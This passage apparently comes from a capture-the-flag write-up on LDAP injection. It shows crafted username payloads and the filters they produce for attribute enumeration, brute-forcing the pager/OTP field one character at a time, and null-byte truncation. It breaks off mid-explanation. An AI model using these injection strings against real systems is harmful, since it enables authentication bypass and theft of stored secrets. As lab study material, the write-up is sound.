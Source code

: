 #### Attrib Test

When I wanted to do something more complicated, like see what attributes
were present, I submitted the username of `*)(${attrib}=*`. That would
produce the query, using `mail` as the example attribute:



    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=*)
        (mail=*)
      )
      (pager=*)
    )



This would return results only if the mail attribute had data in it.

#### Pager Brute

Next I wanted to extract the data from the pager attribute, using a
query like `ldapuser)({attrib}={otp}*`. So to see if `2` is the first
character in `pager`, the query would look like:



    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)
        (pager=2*)
      )
      (pager=*)
    )



#### Admin Check

The second order injection gets more complete. I submitted
`ldapuser)))%00`. In the first query, for login, that would result in:



    (&
      (&
        (objectClass=inetOrgPerson)
        (uid=ldapuser)))%00)
      )
      (pager=*)
    )



If I truncate that at the null, it becomes:


